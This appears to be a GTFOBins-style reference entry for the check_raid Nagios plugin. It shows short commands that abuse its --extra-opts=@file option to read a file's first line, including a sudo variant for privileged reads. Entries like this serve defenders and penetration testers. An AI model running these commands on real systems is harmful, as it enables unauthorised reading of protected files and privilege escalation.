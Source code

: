 # GTFOBin: check_raid

This is the `check_raid` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`. The read file content is limited to the first line.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
check_raid --extra-opts=@$LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo check_raid --extra-opts=@$LFILE
```